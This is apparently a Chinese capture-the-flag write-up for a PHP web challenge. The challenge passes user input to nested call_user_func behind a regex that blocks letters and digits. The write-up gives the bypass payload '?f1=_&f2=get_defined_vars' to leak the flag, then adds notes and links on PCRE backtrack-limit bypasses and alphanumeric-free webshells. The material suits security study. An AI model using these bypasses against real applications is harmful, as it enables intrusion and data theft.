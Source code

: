 ```php
 <?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}
function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} NULL 
```
解题思路：
```
var_dump(call_user_func(call_user_func($f1,$f2)));
call_user_func ( callable $callback , mixed $parameter = ? , mixed $... = ? ) : mixed

get_defined_vars — 返回由所有已定义变量所组成的数组 
printf(gettext("My name is %s.\n"), my_name);
等价于
printf(_("My name is %s.\n"), my_name);
```
payload
```
?f1=_&f2=get_defined_vars
```

<a href="https://www.laruence.com/2010/06/08/1579.html">深悉正则(pcre)最大回溯/递归限制（非贪婪模式)</a></br>
<a href="https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html">PHP利用PCRE回溯次数限制绕过某些安全限制（贪婪模式）</a>
```
PHP中，为了防止一次正则匹配调用的匹配过程过大从而造成过多的资源消耗，限定了一次正则匹配中调用匹配函数的次数。 回溯主要有两种
贪婪模式下，pattern部分被匹配，但是后半部分没匹配（匹配“用力过猛”，把后面的部分也匹配过了）时匹配式回退的操作，在出现*、+时容易产生。
非贪婪模式下，字符串部分被匹配，但后半部分没匹配完全（匹配“用力不够”，需要通配符再匹配一定的长度），在出现*?、+?时容易产生。
```

<a href="http://www.ruanyifeng.com/blog/2019/09/curl-reference.html">curl 的用法指南</a>

<a href="https://blog.csdn.net/miuzzx/article/details/109143413">无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）</a>

<a href="https://blog.csdn.net/qq_49480008/article/details/115872899">$_SERVER[‘QUERY_STRING‘]</a>
<a href="https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html">无字母数字webshell之提高篇</a>




